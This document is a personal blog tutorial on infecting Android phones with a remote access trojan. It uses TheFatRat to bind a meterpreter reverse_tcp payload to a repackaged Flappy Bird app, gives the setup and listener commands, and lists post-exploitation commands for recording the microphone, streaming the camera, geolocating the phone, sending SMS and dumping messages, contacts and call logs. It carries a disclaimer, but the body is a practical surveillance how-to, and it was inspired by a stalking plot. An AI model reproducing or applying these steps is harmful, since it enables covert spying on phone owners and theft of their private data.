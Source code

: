 ```yaml
---
title: Trying out an android Remote Access Trojan (RAT)
author: hugo
date: 2023-04-05 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of infecting Android phones with a trojan. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }

## The art of deception

_The best defense is a good offense_. Once you're able to write this up and distribute it yourself you'll get a good grasp of how this attack works and what to look out for to stay protected on the internet. Let's define what a trojan is and what we intend to do here today.

<em>In computing, a Trojan horse is any malware that misleads users of its true intent by disguising itself as a real program. The term is derived from the ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy.</em> [`Wikipedia`](https://en.wikipedia.org/wiki/Trojan_horse_(computing)).

To perform this attack you:

1. do not need to "root" your device. You should be able to connect your phone via USB or wifi and drag and drop the executable onto the phone without prior phone configuration.
2. will need to have physical access (pin number) to the phone you're targeting because Android is able to identify it as a trojan and tries to prevent you from installing it.

## Inception

I got inspired to write this blog post after watching a disturbing movie on netflix. "Unlocked" is the story of a korean psychopath who installs malware on a girl's lost cell phone and uses it to track her every move. The movie and the plot were not great but this idea stuck with me. It can't be that easy to install a tracker on a phone? right?

It took me a while to understand what tools and software exist out there. My mind naturally gravitated to the Google store first. I figured that the easiest and frictionless solution you could ever wish for would be on the App store. After some digging I finally discovered Airdroid which provides a lot of those malware features like GPS tracking and screen monitoring. The only two problems I had with it is that it's not a stealth solution, the app notifies the user that it's running on the background, and your data is sent to god knows who's server out there on the internet. I set it upon myself to find "better". A couple of weeks later I came to the realization that all of my deep web searches were in vain and got burnt out from clicking through all the online scams down there. The few forums I actually found looked like they came out from the 1990's which gave me nostalgia and some happy memories of what the early web looked like but ultimately it did not provide any answers.

After a couple of days I finally found the right keyword to search on google and came accross 10 potential candidates for this blog post. My mind finally settled on one called "TheFatRat" and "AndroRat".

## Strategy

Let's review what we are about to do. The plan is to test this malware locally on a virtual android environment and make sure that our server can successfully command and control the android phone. Once that's validated we can increase the complexity by deploying it onto an actual phone on our local area network. I was planning on showcasing at least four open source projects but ended up only reviewing two of them. The [L3MON](https://github.com/D3VL/L3MON) project vanished from github unfortunately and the [xhunter](https://github.com/anirudhmalik/xhunter) project did not work despite using the release and making sure to use the right Android OS version. It's been quite hard to find anything that (kind of) works so I'm happy to have at least found one open source project that actually applied the malware.

## Configuring and installing

We will be trying out two RATs today: [TheFatRat](https://github.com/screetsec/TheFatRat) and [AndroRAT](https://github.com/karma9874/AndroRAT). Both of which have their pros and cons. 

Starting in second place we have AndroRAT. The advantage of using this RAT is the fact that the author shared the actual Java code so you're able to modify and understand how it does it's magic. I deployed AndroRAT on one AVD and two actual phones (OS 13 and 6.0.1) and they were all extremely unstable. The RAT successfully spawned a reverse shell on my computer but it would randomly break and I would have to repeat the installation cycle all over again every time. If it wasn't for the transparency of the codebase I don't think I would have bothered mentioning this program in the first place but I can see potential in it. 

Our clear winner here today is TheFatRat who's functionalities are far and wide. This small executable claims it can take on Windows, Mac, Linux computers as well as android phones. I have yet to fully test and assess these claims but so far I have been blown away by the ease of use and the sheer amount of features this thing has. With our previous RAT we had to install and run a shaddy looking app which does not seem like a credible attack strategy. TheFatRat on the other hand allows us to attach the trojan onto a legitimate app which is how I assume most malware is distributed nowadays. TheFatRat has however a glaring problem which is that it's closed source. The program works thanks to a couple of bash scripts and pre-compiled (c++ code?) but you won't get to see a single line of actual source code which is disappointing to say the least.

Enough talk let's configure and install this software to see what it can do.

```console
    [waz@localhost]# git clone git@github.com:screetsec/TheFatRat.git
    [waz@localhost]# cd TheFatRat
    [waz@localhost]# chmod +x setup.sh && ./setup.sh
```
If the setup fails try running it again, it solved the issue for me as some libraries conflicted with existing ones I had previously installed.

Once the setup is complete you now see a program called _fatrat_ at the root of the project. Run it and it will start the following command line prompt

![FatRat welcome screen](/assets/img/posts/2023-04-05_11-31.png){: width="100%"}

The purpose of this tutorial today is to run an Android trojan so let's choose option number 5. You will then be asked to choose the host ip address, the host's port and the app you want to attach the payload to. I've choosen Flappy bird which I downloaded from APK mirror. The host ip is the IP address of the server that should communicate back with the infected target. Don't forget to allow the servers to communicate on the port you choose to run in your firewall.

![FatRat host configuration](/assets/img/posts/2023-04-05_11-38.jpg){: width="100%"}

Later in the process choose the option 3 "android/meterpreter/reverse_tcp" and then option 3 "Use MsfVenom"

Once configured make sure to add a listener and give it a name, I gave it the name `myratconfig.rc`. This will list out the configuration which will now be used to run our local server. This next command will start listening for incoming HTTP requests 

```console
    [waz@localhost]# msfconsole
```

Now copy paste the contents of `myratconfig.rc` in the console to start listening for incoming requests. The next step is to send the trojan and install it on a device. You can start a local android instance with the following command `./emulator -avd Pixel_API_33` or connect your phone to your computer via USB. Once installed it's you'll have a number of interesting commands at your disposal. You'll notice that the phone does not even need to have the infected app in the background in order to work

Here are the commands I found most interesting:

```console
# record the next 20 seconds activity from the microphone
record_mic -d 20
# send text messages 
send_sms -d +351961234567 -t "GREETINGS SWEETHEART."  
# list available cameras
webcam_list 
# take a picture from the camera s phone
webcam_snap 2
# start streaming the back camera
webcam_stream 
# locate the phone by returning the exact longitude/latitude position
wlan_geolocate -a REPLACE_WITH_YOUR_GOOGLE_API_KEY
# take a screenshot 
screenshot
# copy all of the call logs on the phone
dump_calllog
# copy all of the sms conversations on the phone
dump_sms
# copy all of the contacts on the phone
dump_contacts
```
## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/2023-04-05%2022-31-03.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen sandbox></iframe>

</div>

## Conclusion

I started this pen-tester/security journey recently and it feels like opening a pandora's box. The modern hacker has so many tools available at his disposal and the scary part is that I needed absolutely no programming knowledge to pull this off. A bit of curiosity sprinkled with some persistence here and there did the trick. If this blog post could convey one idea it is this: be extremely careful with the apps you install even when they come from the app store. 

Thank you for reading 

